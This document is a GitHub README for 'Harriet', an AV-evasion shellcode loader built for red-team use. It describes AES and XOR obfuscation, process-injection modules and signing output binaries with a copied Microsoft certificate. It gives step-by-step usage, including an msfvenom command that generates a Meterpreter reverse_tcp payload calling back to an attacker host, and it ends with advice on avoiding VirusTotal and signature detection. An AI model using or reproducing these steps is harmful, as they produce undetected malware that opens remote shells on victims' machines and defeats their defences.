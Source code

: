 ![Screen Shot 2022-10-02 at 10 29 43 AM](https://user-images.githubusercontent.com/76174163/193459711-647f63a7-b7e6-49b6-9659-f63cebdbeece.png)


**Meet Harriet!**

Harriet was inspired by the Charlotte C++ shellcode loader. This tool uses AES encryption and function/variable obfuscation to get around AV and Windows Defender. Most of the code was taken from the Sektor 7 Malware Development Essentials course. All credit goes to reenz0h and @Sektor7net. I wrote this mainly as a way to get a quick undetected executable for testing and to not have to switch over to a Windows VM every five seconds for compiling. 

![Screen Shot 2022-10-17 at 12 14 33 PM](https://user-images.githubusercontent.com/76174163/196229183-c96e9a38-8466-4ebd-81ab-35934877d559.png)

The payload framework is very effective when paired with my Covenant Randomizer script.

![Screen Shot 2022-10-17 at 12 15 10 PM](https://user-images.githubusercontent.com/76174163/196229270-49bb9d83-a18d-4cb6-b1b7-b798fca19d4c.png)

I was able to bypass Defender with Covenant with no problems.

![Screen Shot 2022-10-17 at 11 59 31 AM](https://user-images.githubusercontent.com/76174163/196239034-54866187-c461-4735-be81-9821c3a1e9a0.png)

I was also able to bypass Defender with a Meterpreter payload. This might not be as effective since Meterpreter is signatured so heavily. Your results will vary without modifying your Meterpreter payload's template inside Metasploit. Going with lesser used payloads will probably yield good results. 

**Modules**

![Screen Shot 2022-10-17 at 12 12 15 PM](https://user-images.githubusercontent.com/76174163/196239966-8d41b19b-6d66-4a80-a72c-4d1554197702.png)

There are four modules currently. As of this post, all of them bypass AV/Defender. 
 
AES Encrypted payload
AES Encrypted payload with process injection
QueueUserAPC shellcode execution
ThreadPoolWait shellcode execution. 

All of the modules use XOR encryption for strings and function obfuscation and AES encryption for payload exection. Once the payload is compiled, the script uses SigThief to sign the binary with a Microsoft certificate. 

**Usage:** 

Clone The Repo

**git clone https://github.com/assume-breach/Home-Grown-Red-Team.git**

Run The Setup Script

**cd Home-Grown-Red-Team/Harriet/
bash setup.sh**

Create Your Payload

**msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=IP lport=PORT -f raw > msfr.bin**

Run the Script

**bash Harriet.sh **

Fill In The Values As Prompted

**Enjoy and DON'T UPLOAD TO Virus Total!!!!!**

**Mitigations**

There are a few issues that you should be aware of. The first is that this will be detected at some point. Eventually, it will wind up on VT or the AV engines will signature it. There are mitigations that you can take to customize it. The first is to change the Virt_Alloc variable in all of the scripts. The second is to change all of the values in the perl scripts. Adding various sleep functions within the scripts can also keep the script from being signatured. 
